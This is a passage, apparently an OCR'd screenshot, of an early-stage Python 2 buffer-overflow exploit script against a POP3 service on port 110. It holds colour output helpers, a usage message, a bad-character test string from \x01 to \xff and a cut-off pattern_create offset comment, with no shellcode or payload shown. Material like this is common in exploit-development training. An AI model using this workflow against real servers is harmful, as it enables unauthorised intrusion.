 ```
root@kali:~# vim sploit.py
```

```
#!/usr/bin/python

import socket, sys

#################### gsstyle
from colorama import Fore, Back, Style
colorama.init()

def printinfo(output):
  print Style.DIM + "[*] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printresult(output):
  print Style.BRIGHT + Fore.BLUE + "[>] ",
  for field in output:
    print field,
  print Style.RESET_ALL

def printalert(output):
  print Style.BRIGHT + Fore.RED + "[!] ",
  for field in output:
    print field,
  print Style.RESET_ALL

#################### Help section
if len(sys.argv) != 2:
  print "Usage: ./sys.argv[0] <ip.addr>"
  print
  print "ARGUMENT        FORMAT  DESCRIPTION"
  print " <ip.addr>       IPv4    IP address of host you want to test."
  print
  sys.exit(0)

#################### Variables
ip = sys.argv[1]   # string argument
port = 110         # int

# Initialize string of UTF hex values \x01 thru \xff for badchar testing:
chars  =     "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
chars += "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
chars += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
chars += "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
chars += "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
chars += "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
chars += "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
chars += "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
chars += "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

#
# PATTERN
# echo -n "pattern  = "; ./pattern_create.rb -l 2700 | sed 's/.*/\"&\"/' |\
```